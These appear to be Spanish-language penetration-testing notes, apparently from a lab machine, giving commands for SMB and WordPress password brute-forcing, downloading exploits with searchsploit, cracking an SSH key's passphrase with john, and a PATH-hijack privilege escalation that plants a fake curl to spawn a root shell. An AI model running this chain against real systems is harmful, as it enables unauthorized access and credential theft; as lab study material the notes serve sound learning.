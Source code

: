`Ataque de diccionario SMB:

crackmapexec smb 10.0.2.43 -u test -p passwords.txt

``Inicios de sesión samba

smbmap -H 10.0.2.43 -u helios -p qwerty
**smbclient //10.0.2.43/helios -U helios** (luego pedirá contraseña)

`Escaneo de vulnerabilidades samba con map
nmap -p445 --script="smb-vuln-\*" 10.0.2.45 

# Wordpress/ Searchesploit / John 2 id_rsa

`Ataques de diccionario/otros wordpress:
wpscan --url http://etc/hosts/
wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://testsystem.local/h3l105/

``Buscar y descargar exploits
searchsploit wordpress mail masta
searchsploit -m (numero de exploit)
mousepad (numero de exploit)

`Buscar id_rsa y conectar ssh con id_rsa:
/home/username/.ssh/id_rsa
ssh username@10.0.2.43 (el que diga Permission denied (public key) es el wordpress)
nano id_rsa
**chmod 600 id_rsa**
ssh -i id_rsa helios@10.0.2.43

`Crackear contraseña de id_rsa encriptada con contraseña:
ssh2john id_rsa > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Escalada de privilegios

`Listar tareas en intervalos de tiempo:
cat /etc/crontab
`Ver archivos con permisos SUID (siempre que ejecutemos es bajo contexto de administrador):
find / -perm -4000 -ls 2>/dev/null
`Ver tipo de archivo:
file /opt/statuscheck
`Ver cadena de caracteres legibles en un archivo:
strings /opt/statuscheck

# Path Hijacking con curl

``Añadir tmp a al prinicpio del path, seguido del antiguo path, establece primera ruta que busca curl

export PATH=/tmp:$PATH
cd /tmp
nano curl (escribimos dentro del nano **/bin/bash -p** y guardamos)
chmod +x curl 
./curl
(iniciamos una sesión dentro de otra, exit para salir)
/opt/statuscheck
